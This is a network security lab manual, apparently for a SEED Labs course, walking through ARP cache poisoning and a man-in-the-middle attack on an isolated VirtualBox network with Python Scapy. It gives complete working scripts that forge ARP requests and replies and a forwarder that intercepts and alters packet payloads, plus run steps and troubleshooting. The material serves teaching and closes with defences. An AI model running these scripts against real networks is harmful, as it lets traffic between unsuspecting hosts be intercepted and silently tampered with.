




# Lab 04 — ARP Spoofing & Man-in-the-Middle (MITM) using Scapy

*Network Security Lab Manual — VirtualBox (SEED Labs) + Python Scapy*

---

## 1. Objective

In Lab 03, the Attacker only passively sniffed traffic. In this lab, the Attacker becomes active: it poisons the Sender's ARP cache so that traffic meant for the Receiver is instead routed through the Attacker. The Attacker then intercepts each packet, optionally modifies its payload, and forwards it to the real Receiver — a full **Man-in-the-Middle (MITM)** attack. In this demo, the payload `welcome` is altered to `HACKEDD` before reaching the Receiver.

---

## 2. Lab Topology

Same three VMs as Lab 03, on the same Host-only Network:

| Role | VM Name | IP Address | MAC Address |
|---|---|---|---|
| Sender / Machine A (Victim) | seed (base) | `192.168.56.105` | `08:00:27:01:c1:64` |
| Attacker | seed Attacker | `192.168.56.106` | `08:00:27:bd:c4:a4` |
| Receiver / Machine B (Victim) | seed Receiver | `192.168.56.107` | `08:00:27:a8:5e:f3` |

---

## 3. Concept

ARP has no authentication — any device can claim to own any IP address on the local network. The attack has two stages:

1. **ARP Cache Poisoning** — the Attacker sends forged ARP messages to the Sender, claiming that the Attacker's MAC address belongs to the Receiver's IP. The Sender's ARP cache is updated accordingly, so it now sends Receiver-bound traffic straight to the Attacker.
2. **MITM Forwarding** — the Attacker's `mitm.py` script captures each packet arriving because of the poisoned cache, optionally rewrites the payload, recalculates checksums, and forwards it on to the real Receiver — so the victims never notice anything changed.

---

## 4. Script Placement

All three scripts run on the **Attacker VM** (seed Attacker):

| Script | Purpose |
|---|---|
| `Lab_04-1_arpPoisonRequest.py` | Poison the Sender's ARP cache using a fake ARP request |
| `Lab_04-2_arpPoisonReply.py` | Poison the Sender's ARP cache using a fake ARP reply |
| `Lab_04-3_mitm.py` | Intercept, modify, and forward traffic between Sender and Receiver |

---

## 5. Disable IP Forwarding on the Attacker

Since `mitm.py` manually forwards packets, the Linux kernel's automatic forwarding must be switched off first:

```bash
sudo sysctl net.ipv4.ip_forward=0
```

---

## 6. Script Contents

### 6.1 `Lab_04-1_arpPoisonRequest.py`

```python
#!/usr/bin/env python3

from scapy.all import Ether, ARP, sendp

# Source machine (A - Victim / Sender)
sm_IP  = '192.168.56.105'
sm_MAC = '08:00:27:01:c1:64'

bc_MAC = 'ff:ff:ff:ff:ff:ff'

# Target/destination machine (B - Impersonated / Receiver)
tm_IP  = '192.168.56.107'
tm_MAC = '08:00:27:a8:5e:f3'

# Attacker machine
am_IP  = '192.168.56.106'
am_MAC = '08:00:27:bd:c4:a4'

print("Sending Spoofed ARP request...")

ether = Ether()
ether.dst = sm_MAC
ether.src = am_MAC

arp = ARP()
arp.psrc = tm_IP
arp.hwsrc = am_MAC
arp.pdst = sm_IP
arp.op = 1

frame = ether/arp
sendp(frame, iface='enp0s8')
```

### 6.2 `Lab_04-2_arpPoisonReply.py`

```python
#!/usr/bin/env python3

from scapy.all import Ether, ARP, sendp

# Machine A (Victim whose cache we are changing / Sender)
sm_IP  = '192.168.56.105'
sm_MAC = '08:00:27:01:c1:64'

# Machine B (Target/Destination IP being spoofed / Receiver)
tm_IP  = '192.168.56.107'

# Attacker Machine (Providing its MAC address)
am_MAC = '08:00:27:bd:c4:a4'

# Ethernet Header
ether = Ether(src=am_MAC, dst=sm_MAC)

# ARP Reply Header (op=2)
arp = ARP(
    op=2,                # 2 = ARP Reply
    hwsrc=am_MAC,        # Claim Attacker MAC owns Machine B's IP
    psrc=tm_IP,          # Impersonate Machine B's IP
    hwdst=sm_MAC,        # Send directly to Machine A's MAC
    pdst=sm_IP           # Target Machine A's IP
)

# Combine and send at Layer 2
frame = ether / arp
sendp(frame, verbose=True, iface='enp0s8')
```

> Either script (request-based or reply-based) achieves the same result — poisoning the Sender's ARP cache.

---

## 7. Running the ARP Poison

### Step 1 — Run the poison script on the Attacker

```bash
sudo python3 Lab_04-1_arpPoisonRequest.py
```


*Screenshot 1 — Attacker terminal: "Sending Spoofed ARP request..." and "Sent 1 packets."*

### Step 2 — Verify the poisoning on the Sender

On the Sender VM, check the ARP cache:

```bash
arp -n
```


*Screenshot 2 — Sender's `arp -n` output: the entry for `192.168.56.107` (Receiver) now shows MAC `08:00:27:bd:c4:a4`, which is the Attacker's MAC — confirming the poisoning succeeded.*

---

## 8. `Lab_04-3_mitm.py` — MITM Forwarder

```python
#!/usr/bin/env python3

from scapy.all import Ether, IP, TCP, UDP, Raw, sniff, sendp, ls

# Machine A (Victim 1 / Sender)
sm_IP  = '192.168.56.105'
sm_MAC = '08:00:27:01:c1:64'

# Machine B (Victim 2 / Receiver)
tm_IP  = '192.168.56.107'
tm_MAC = '08:00:27:a8:5e:f3'

# Attacker Machine
am_IP  = '192.168.56.106'
am_MAC = '08:00:27:bd:c4:a4'

IFACE = 'enp0s8'

def spoof_pkt(pkt):
    # Prevent infinite loop: ignore packets sent by the attacker machine itself
    if pkt[Ether].src == am_MAC:
        return

    ls(pkt)
    if pkt.haslayer(IP):
        # Direction: Machine A -> Machine B
        if pkt[IP].src == sm_IP and pkt[IP].dst == tm_IP:
            new_pkt = pkt.copy()
            new_pkt[Ether].src = am_MAC
            new_pkt[Ether].dst = tm_MAC

            # Optional: Payload Modification
            if new_pkt.haslayer(Raw):
                # Example: Modify application data (replace 'welcome' with 'HACKEDD')
                new_pkt[Raw].load = new_pkt[Raw].load.replace(b'welcome', b'HACKEDD')

                # Delete checksums so Scapy recalculates them upon send
                del new_pkt[IP].chksum
                if new_pkt.haslayer(TCP):
                    del new_pkt[TCP].chksum
                elif new_pkt.haslayer(UDP):
                    del new_pkt[UDP].chksum

            sendp(new_pkt, iface=IFACE, verbose=False)

        # Direction: Machine B -> Machine A
        elif pkt[IP].src == tm_IP and pkt[IP].dst == sm_IP:
            new_pkt = pkt.copy()
            new_pkt[Ether].src = am_MAC
            new_pkt[Ether].dst = sm_MAC

            if new_pkt.haslayer(Raw):
                del new_pkt[IP].chksum
                if new_pkt.haslayer(TCP):
                    del new_pkt[TCP].chksum
                elif new_pkt.haslayer(UDP):
                    del new_pkt[UDP].chksum

            sendp(new_pkt, iface=IFACE, verbose=False)

if __name__ == "__main__":
    print(f"[+] Starting MITM Packet Forwarder on {IFACE}...")
    filter_expr = f"ip host {sm_IP} or ip host {tm_IP}"
    sniff(iface=IFACE, filter=filter_expr, prn=spoof_pkt)
```

---

## 9. Running the MITM Forwarder

### Step 1 — Start `mitm.py` on the Attacker (leave it running)

```bash
sudo python3 Lab_04-3_mitm.py
```


*Screenshot 3 — Attacker terminal: "[+] Starting MITM Packet Forwarder on enp0s8..."*

### Step 2 — Send data from the Sender (reusing Lab 03's send script)

`DEST_IP` in `Lab_03-1_sendDataScapy.py` is set to the Receiver's IP (`192.168.56.107`):

```bash
sudo python3 Lab_03-1_sendDataScapy.py
```


*Screenshot 4 — Sender terminal: `ls(pkt)` output showing the outgoing packet (payload: `b'welcome'`) and "Sent 1 packets."*

### Step 3 — Observe the Attacker intercepting the packet

Because of the poisoned ARP cache, the packet actually arrives at the Attacker first. The `mitm.py` script prints the full packet structure via `ls(pkt)`, showing the Ethernet, IP, and UDP layers — including the original payload before modification:


*Screenshot 5 — Attacker VM window: `mitm.py` printing the intercepted packet's fields, including src/dst MAC and IP addresses and `load = b'welcome'`*

### Step 4 — Check what the Receiver actually gets

On the Receiver VM, listening with netcat:

```bash
nc -lu 9090
```


*Screenshot 6 — Receiver terminal (netcat) showing the tampered data "HACKEDD" arriving instead of the original "welcome"*

---

## 10. Result

The Sender believed it was communicating directly with the Receiver, but because of ARP cache poisoning, its traffic was actually routed through the Attacker first. The Attacker's `mitm.py` intercepted the packet, replaced the payload `welcome` with `HACKEDD`, recalculated the checksums, and forwarded the modified packet on to the real Receiver. The Receiver's netcat terminal confirms the tampered data arrived — proving a successful Man-in-the-Middle attack: traffic was not just observed (as in Lab 03) but **actively altered in transit**, without either the Sender or Receiver detecting it.

---

## 11. Run Order Summary

1. Attacker: `sudo sysctl net.ipv4.ip_forward=0`
2. Attacker: run the ARP poison script (`Lab_04-1` or `Lab_04-2`)
3. Sender: verify with `arp -n`
4. Attacker: run `Lab_04-3_mitm.py` (keep running)
5. Receiver: run `nc -lu 9090` (optional, to observe the result)
6. Sender: run `Lab_03-1_sendDataScapy.py`
7. Check the Attacker's and Receiver's terminals for results

---

## 12. Troubleshooting

| Problem | Likely Cause | Fix |
|---|---|---|
| ARP poison doesn't seem to work | Modern OS ignoring unsolicited ARP | Run `sudo tcpdump -i enp0s8 arp -n` on the Sender to confirm ARP traffic arrives |
| No data reaches Receiver at all | `ip_forward` left enabled, causing conflicts | Confirm it is set to `0` on the Attacker |
| Attacker sees nothing in mitm.py | Promiscuous Mode disabled / wrong interface | Re-check Promiscuous Mode settings and confirm the interface name is `enp0s8` |
| Want to disable promiscuous mode later | — | `sudo ip link set enp0s8 promisc off`, or pass `promisc=0` to `sniff()` |

---

## 13. Key Takeaway

ARP has no built-in authentication, so any device on the local network segment can forge ARP replies and redirect traffic meant for another host. Once traffic flows through an attacker, it can be silently modified — not just observed. This is why techniques like Dynamic ARP Inspection, static ARP entries, or network segmentation are used to defend against ARP spoofing in real environments. These techniques are demonstrated here strictly for educational purposes in an isolated lab network.

---

*Prepared for academic lab submission — ARP Spoofing & MITM using Scapy (Lab 04).*
